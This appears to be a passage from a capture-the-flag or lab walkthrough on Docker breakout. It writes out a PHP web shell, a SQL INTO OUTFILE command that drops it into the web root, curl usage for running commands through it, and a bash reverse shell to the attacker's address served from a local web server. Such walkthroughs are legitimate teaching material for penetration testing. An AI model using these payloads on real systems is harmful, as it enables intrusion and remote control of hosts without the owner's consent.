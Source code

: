  Example code: `<?php $cmd=$_GET["cmd"];system($cmd);?>`

- Drop table contents onto a file the user can access

- Execute and obtain RCE on the host.

Looking at the above exploit may seem complicated, but we can break it down further and provide more context to make it simpler.

We can use a single command to inject our PHP code into a table and save the table into a file on the remote system.  We are writing any code that we want onto the remote system from this  command, which we can then execute, giving use code execution. Find the  command used below.

Command used: `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`

Now that we have a file that we control dropped on the system, we can curl the address and obtain RCE from the dropped file. Find example  usage below.

Example usage: `curl 127.0.0.1:8080/shell.php?cmd=whoami`

# Docker Breakout Going%20out%20with%20a%20SHEBANG%21                            

Now that you have escaped the container and have RCE on the host, you need to create a reverse shell and obtain a way to gain a stable shell onto the box.

There are several ways to obtain a reverse shell on a box once you have RCE. Outlined below are a few of the most common methods used.

    netcat
    bash
    python
    perl

For more information about various payloads and reverse shells, you can use check out these two resources. https://github.com/swisskyrepo/PayloadsAllTheThings. http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.

In this task, we will be covering how to use a basic bash reverse shell along with URL encoding to drop a script directly into bash. Using URL encoding to our advantage, we can ease much pain when executing a payload as often special characters such as &, ', !, ;, ? will cause serious issues.

To begin, we will create a simple payload by placing the below code into a .sh file.

```
#!/bin/bash
bash -i >& /dev/tcp/tun0ip/53 0>&1
```

The first line will declare that we are using the bash scripting language. The second line is the payload itself. For more information about this payload, check out this explain shell, https://explainshell.com/explain?cmd=bash+-i+>%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0>%261.

Now that you have the payload ready to go, you can start up a local web server on your attacking machine using either http.server or updog or php. You can find example usage for all three below.

    python3 -m http.server 80
    updog
    php -S 0.0.0.0:80
